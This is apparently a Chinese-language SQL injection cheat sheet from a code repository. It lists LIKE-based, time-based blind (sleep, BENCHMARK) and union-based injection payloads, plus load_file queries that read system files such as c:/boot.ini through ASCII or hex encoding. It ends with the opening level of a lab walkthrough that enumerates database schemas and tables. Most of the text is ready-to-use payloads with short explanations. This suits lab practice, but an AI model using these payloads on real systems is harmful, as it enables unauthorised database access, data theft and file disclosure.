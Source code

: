 like 匹配注入

```
select user() like 'root%'
```

- 延时注入

```
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23

UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
```

- 导入导出操作

```
load_file()导出文件

Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92, 114,101,112,97,105,114,92,115,97,109)))

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105)) 
Explain:“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) Explain:“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
-1 union select 1,1,1,load_file(c:\\boot.ini) Explain:路径里的/用 \\代替

```

```
LOAD DATA INFILE 导入

```


==============================================================================================



- 第一关(联合开始)

```
and 1=1 --+
```

![](https://pic.superbed.cn/item/5dcac5518e0e2e3ee9b94e2b.jpg)

![](https://pic.superbed.cn/item/5dcac66a8e0e2e3ee9b973b3.jpg)

```
id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```
![](https://pic.superbed.cn/item/5dcac88c8e0e2e3ee9b9be2c.jpg)

```
id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```
![](https://pic.superbed.cn/item/5dcaca668e0e2e3ee9ba4663.jpg)
